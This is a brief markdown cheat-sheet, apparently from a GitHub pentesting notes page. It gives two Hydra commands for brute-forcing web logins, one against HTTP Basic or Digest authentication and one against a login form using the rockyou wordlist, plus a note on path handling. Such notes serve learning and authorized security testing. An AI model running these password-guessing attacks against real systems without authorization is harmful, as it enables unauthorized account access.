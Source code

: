 <details>
<summary>$\huge{\text{Hydra}}$</summary>

- HTTP Basic Authentication & HTTP Digest Authentication
  - `hydra -L users.txt -P password.txt -vV example.com http-get /basic`
  - IMPORTANT NOTE: /basic and /basic/ are different... so pay attention to set the correct path
- Other: https://github.com/gnebbia/hydra_notes
- HTTP LOGIN
  - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"`

<br>
</details>
